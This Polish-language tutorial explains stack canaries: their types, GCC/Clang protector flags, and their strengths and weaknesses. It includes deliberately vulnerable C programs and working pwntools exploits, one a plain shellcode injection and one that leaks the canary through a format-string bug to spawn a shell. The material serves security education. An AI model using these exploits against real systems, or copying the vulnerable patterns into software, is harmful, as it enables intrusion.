


# Stack canary

## 1. Opis

`Stack canary` jest używane w celu sprawdzenia, czy nastąpił `BOF`. Nazwa pochodzi z czasów, kiedy kanarek służył w kopalni jako ostrzeżenie o niebezpiecznym stężeniu gazów, które mogły doprowadzić do wybuchu. Metoda ta działa dzięki umiejszaczeniu pewnej wartości na stosie, która jest generowana każdoroazowo przy uruchomieniu programu, tuż przed wartością powrotu - return value. Wartośc ta sprawdzana jest przed wyjściem z funkcji - jeżeli wartość się zgadza następuje wyjście z funkcji, jeżeli nie dostajemy błąd `*** stack smashing detected ***`.


Można wyróżnic 4 rózne typy kanarków:

* `Random Canary` - pseudolosowa 32-bitowa wartośc generowana dla linux przez `/deb/random` lub `/dev/urandom`
* `Random XOR Canary` - ulepszony `Random Canary`, wartośc jest XOR-owana z wartością przechowywaną w wartościach kontrolnych
* `Null Canary` - wartość kanarka ustawiona jako `0x00000000` - null byte. Dzięki temu nadpisanie kanarka miało być niemożliwe, ponieważ większośc funkcji zaprzestaje czytanie do do buforu po znaku `0x00`
* `Terminator Canary` - wartością kanarka jest kombinacja Null, CT, LF i 0xFF, gdyż te wartości są string terminators w większości funkcji, które zapisują wartości do bufora


Tak jak wspomniałem wcześneij, sprawdzenie kanarka odbywa się tuż przed wyjściem z funkcji. Porówynawana jest wartość ze stosu z wartością zawartą w zmiennych globalnych. W disassemble kodzie funkcji, widać dokładnie w którym miejscu kanarek jest umieszczany na stos oraz w którym miejscu jest on sprawdzany. Poniżej znajduje się fragment kodu asm funkcji vuln, w której sprawdzany jest kanarek. W tym przypadku kanarek najpierw jest pobierany ze stosu z pod adresu `ebp - 0xc` do rejestru `eax`, a następnie odejmowana jest wartość orginalnego kanarka pobranego za pomocją rejestru `gs` - rejestr użwayny do pobierania danych (dla `Windows`-a wskazuje na struktury zdefuniowanych w systemie operacyjnym, a dla `Linux`-a poprzez kernel uzyskuje dostep do specyficnej pamieci dla procesora). Jeżeli w rejestrze `eax` znajduje się zero, wówczas program przechodzi do instrukcji `<vuln + 84>` - następuje wyjście z funkcji. Jeżeli nie wykonywana jest instrukcja `<__stack_chk_fail_local>`.


Sprawdzenie kanarka można podejrzeć również dzieki programowi takiemu jak `Ghidra` - narzędzie inżynierji wstecznej pozwalające odtworzyć kod aplikacji. Na screenie poniżej widać, że na początku funkcji zapisywana jest pewna wartość `int` - kanarek, a przed wyjściem z funkcji sprawdzana jest jego wartość z wartością orginalną.


## 2. Wady i zalety

Niewątpiwą zaletą zabezpieczania aplikacji poprzez użycie kanarka jest zabezpieczenie jej przed atakami `BOF`. Dzięki sprawdzeniu wartości kanarka na stosie ataki skupiające się na nadpisaniu adresu powrotu są niemożliwe, gdyż zgadnięcie wartości kanarka graniczy z cudem.

Zaletą jest również to, że używanie stack protection dodaje niewielki nakład do stosu oraz do ilości instrukcji. Jest to prosty sposób sprawdzania czy nie nastąpił `BOF`. Nakład ten jest niemalże niezauważalny, jeśli nie uzywamy `fstack-protector-all` - w takim przypadku ilość instrukcji może znacząco wzrosnąć.

Wadą sotosowania kanarka jest to, że jeżeli jesteśmy w stanie leakować go ze stosu poprzez podatne funkcje typu `printf()`, stanowi on wówczas prawie zerowe zabezpieczenie, gdyż orginalne miejsce kanarka nadpiszemy jego zleakowaną wartością, przez co sprawdzenie jego przejdzie pomyślnie.

Kolejną wadą kanarka jest to, że w przypadku złego zaimplementowania `fork`-owania procesów jesteśmy w stanie zbruteforce-ować wartośc kanarka. Forkując proces uzyskujemy jego idealną kopię - kanarek równiez pozostaje ten sam. Zatem istenieje opcja nadpisywania kanarka bit po bicie i zgadywania jego wartości.


## 3. GCC i Clang

Kompilatory `GCC` oraz `Clang` zapewniają stack canary jako jedną z metod ochorny aplikacji. W obu przypadkach zabezpieczenie te jest defaultowo włączone, jeżeli w danej funkcji występuje lista charów o długości niemniejszej niż 8 znaków oraz w funkcji nie wsytępują metody niebezpieczne pokroju `gets()`.

W przypadku `GCC` oraz `Clang` wstępują 3 różne ustawienia zabezpieczenia poprzez użycie kanarka. Deafultowowym zabezpieczeniem jest `fstack-protector-strong`.

* `fstack-protector` - implementuje kanarka w funkcji jeżeli, w danej funkcji występuje:
	* lista charów o długości niemniejszej niż 8 znaków oraz w funkcji nie wsytępują metody niebezpieczne pokroju `gets()`.
	* zmienna całkowita większa niż 8 byte-ów
	* wywoływana jest funkcja `alloca()` z argumentem większym niż 8 byte-ów
* `fstack-protector-all` - implementuje kanarka we `wszystkich` funkcjach. Ten sposób zabezpieczania może miec wpływ na czas działania aplikacji (w każdej funkcji znajdują się dodatkowe instrukcje) oraz wpłynąć na rozmiar stacka.
* `fstack-protector-strong` - jest to kompromis pomiędzy poprzednimi rozwiązaniami, ponieważ kanarek umieszczany jest w funkcji jeżeli:
	* funkcji używa zmiennych lokalnych o każdej długości
	* używana jest funkcja `alloca()`
	* występuje zmienna lokalna, której adres jest już używany

Kanarek używany w `GCC` i `Clang` zaczyna się od NULL byte - używane w celu utrudnienia nadpisania kanarka.


## 4. Różnice w Windows i Linux

Brak różnic w przypadku tej metody ochorny aplikacji.


## 5.1 Przykładowa aplikacjia - `schellcode injection`

---------
PLIKI:
1. `vuln-1.c`
2. `vuln-1.o`
3. `exploit-1.py`
------------

Tak jak wspomniałem wcześniej, stack canary jest metodą, która może uchronić aplikację przed atakiem BOF. Przykładem będzie aplikacja stworzona na potrzeby metody `NX bit`. Aplikacja posiada podatność w postaci funkcji `gets()`. W przypadku wyłączonego kanarka jesteśmy w stanie zdobyć shella w identyczny sposób jak opisany w `1-NX`.

Założenia kompilacji:
* Kompilacja na 32-bit = `-m32`
* Wyłączone ASLR = `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` - wyłączona radomizacja adresów, aby adres buffora był stały
* Wyłączone NX = `-z execstack` - brak możliwości wykonania kodu maszynowego ze stosu
* Wyłączone Stack Cannary = `-fno-stack-protector` - przepełnienie bufora bez potrzeby leakowania kanarka
* Wyłączone PIE - `no-pie` - wyłączone ASLR, więc adres bazowy i tak byłby stały, zatem te zabezpieczenie nie gra roli w tym przypadku
*
```c
#include <stdio.h>
#include <string.h>

void vuln()
{
	char buffer[16];
    gets(buffer);
    printf("Buffer = %p", buffer);
}

int main(int argc, char *argv[])
{
        vuln();
        return 0;
}
```


Plik skompilowany w taki sposób jesteśmy w stanie exploitować za pomocą takiego samego ataku jak w `NX bit`, czyli `shellcode injection` lub `ret2libc`. Poniżej znajduje się kod exploita opierającego się na ataku shellcode injection.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-1.o')

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGG"

buf_addres = 0xffffd1c0

eip = buf_addres + len(padding) + 4

shellcode = """ 
    xor ecx, ecx
    mul ecx
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 11
    int 0x80
 """

send = padding + p32(eip) + asm(shellcode)

p.sendline(send)

p.interactive()
```

W wyniku działania powyższego exploitu dostajemy shella.


--------------

PLIKI:
1. `vuln-1.c`
2. `vuln-2.o`
3. `exploit-2.py`
-------------

Sytuacja zmienia się jednak, gdy zastosujemy stack canary. Wówczac ataki wymienione powyżej muszą ulec zmianie. Wartość kanarka znajduje się nad nad adresem powrotu, zatem jeżeli będziemy chcieli nadpisać ret, będziemy zmuszeni podać również wartość kanarka. Jeżeli tego nie zrobimy dostaniemy błąd `*** stack smashing detected ***` - wartość kanarka nieodpowienida = nastąpił BOF.


## 5.2 Przykładowa aplikacja - `shellcode injection` z  wyciekiem `stack canary`


--------------

PLIKI:
1. `vuln-2.c`
2. `vuln-3.o`
3. `exploit-3.py`
-------------


W punkcie opisanym powyżej wspomniałem, że do udanego ataku potrzebujemy ponownie umieścić na stosie stack canary. Trudnością jest uzyskanie tej wartośći. Można to zrobić, jeżeli aplikacja zawiera podatności typu `printf()`, gdzie za pomocą odpowiednich specyfikatorów można wypisać wartość ze stosu.

Poniżej znajduje się kod aplikacji zawierającej dwie podatności. Pierwszą z nich jest `gets()` - pozwala na BOF, drugą jest `printf()` - pozwala wypisać wartośći ze stosu.

Założenia kompilacji:
* Kompilacja na 32-bit = `-m32`
* Włączone ASLR = `echo 2 | sudo tee /proc/sys/kernel/randomize_va_space` - radomizacja sekcji, utrudnia odnalezienie adresu stosu
* Włączone PIE - wszytskie sekcje są losowe
* Wyłączone NX = `-z execstack` - brak możliwości wykonania kodu maszynowego ze stosu
* Włączone Stack Cannary = `-fstack-protector` - konieczność podania kanarka w payload


```c
#include <stdio.h>
#include <string.h>

void vuln()
{
	char buffer[600];
    gets(buffer);
    printf(buffer);
    printf("\n");
    gets(buffer);
}

int main(int argc, char *argv[])
{
    vuln();
    return 0;
}
```


W przypadku tego exploita pokusiłem się o pozostawienie ASLR włączonego, oznacza to że sam będę musiał znaleźć adres buffora. Celem oczywiście jest uzyskanie shella. Aby tego dokonać należy wykonać następujące czynności:

* należy użyć podatnośći związanej z funkcją `printf()` i używając specyfikatora `%p` wypisać wartości ze stosu
* zidentyfikować kanarek
* obliczyć adres `buffora` na podstawie odpowiedniego offsetu
* obliczyć wymagany padding


Pierwszą rzeczą jaką wykonałem to sprawdzenie co znajduje się na stosie. Użyłem fo tego któtkiego skryptu python, który wypisuje jako logi wartości ze stosu. Buffor ma rozmiar 600 byte, mogę więc zatem wypisać 299 wartości, jednakże ze względu na to że taka ilość nie jest potrzeban wypisuje ich 199. Ważne jest aby nie przekroczyć zakresu boffora, gdyż inaczej nadpiszemy kanarka.

```python
from pwn import *

p = process('./vuln-3.o')

p.writeline("%p " * 199)

data = p.readline()

data = data.split(b" ")

for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))
```





Następnie, musiałem zidentyfikować, w którym miejscu znajduje się kanarek. W tym celu posłużyłem się `gdb`. W `disassemble` kodzie funkcji `vuln` dokładnie widać, w którym miejscu kanarek jest sprawdzany. Widać też, pod jakim adresem znajduje się on na stosie, jest to adres `ebp - 0xc`. Mówi o tym instrukcja `mov    eax,DWORD PTR [ebp-0xc]`.


Następnie poleceniem `stack 200` jestem w stanie sprawdzić, jakie wartości znajdują sie na stosie. Wiemy, że kanarek znajduje się pod wartością `ebp - 0xc`, dzięki czemu znamy jego pozycję na stosie.


Znając już wartośc kanarka, mogę sprawdzić którym elementem z w tablicy z uzyskanych wartości stosu jest kanarek. W przypadku tej aplikacji jest to `155` element (index w tablicy to `154`). Takie sprawdzenie jest możliwe, jeżeli dany proces zostanie podpięty pod `gdb`, gdyż w innym przypadku kanarek będzie miał inną wartość.


Kolejnym zadaniem było odnalezienie adresu buffora na stosie. Tak jak wspomniałem w założeniach kompilacji, w tym przypadku ASLR oraz PIE jest włączone, co powoduje randomizacje adresów (więcej o tej technice w katalogi 3-ASLR-PIE). Do obliczenia offsetu posłużyłem się `gdb`, w którym to odnalazłem adres `ebp`, który jestem w stanie zleakować ze stacka, jest on 158 elemente (index w tablic to `157`). W `gdb` odnalazłem również adres `buffer`. Obliczająć różnicę pomiędzy tymi dwoma adresami jestem w stanie znaleźć offset, którym będę mógł się posłużyć do wyliczania rzeczywistego adresu `buffer` w apliakcji. Adres w ebp to `0xffffd1c8`, a adres `buffer` to  `0xffffcf54`, zatem offset wynosi 628.


```python
>>> 0xffffd1c8 - 0xffffcf54
628
>>> hex(_)
'0x274'
```


Mając już kanarka oraz adres buffora należy stworzyć shellcode. Shellcode ponownie wykorzystałem ze strony [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-752.php).

```python
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 11
int 0x80
```


Ostatnim elementem jest odnalezienie odpowiedniego paddingu, aby do adresu powrotu trafił adres `buffer`. Wysyłam payload w postaci podanej poniżej. W wyniku wysłania tak skonstruowanego payloadu, dowiaduję się, że padding to `BBBBCCCCDDDD`.

`A` * 600 (wielkośc buffora) + kanarek + `BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ...`


Kod exploitu znajduje się poniżej.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-3.o')'

p.writeline("%p " * 199)

data = p.readline()

data = data.split(b" ")

for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))

canary = int(data[154],16)

log.info("CANARY: 0x%08x" % canary)

shellcode_asm = """
    xor ecx, ecx
    mul ecx
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 11
    int 0x80
"""

shellcode = asm(shellcode_asm)

buffer_len = 600

some_addres = int(data[157],16)

offset = 628

buffer_addres = some_addres - offset

log.info("BUFFER: 0x%08x" % buffer_addres)

send = shellcode + b"A"* (buffer_len - len(shellcode)) + p32(canary) + b"BBBBCCCCDDDD" + p32(buffer_addres)

p.sendline(send)

p.interactive()
```


W wyniku działania powyższego exploita uzyskujemy shella. Na potrzeby kolejnego screena wyłączone zostało wypisanie stacka na konsole.




## 6. Podsumowanie


Kanarek jest dobrą metodą, aby zabezpieczyć  aplikację przed atakami `BOF`. Niestety, nie jest to metoda pozbawiona wad. Jeżeli jesteśmy wstanie zleakować kanarka, wówczas jego sprawdzanie będzie bezużyteczne, gdyż możemy go ponownie nadpisać. Należy pamietać, aby przy kompilacji aplikacji używać wielu metod ochorny i nie używać podatynch funkcji. 
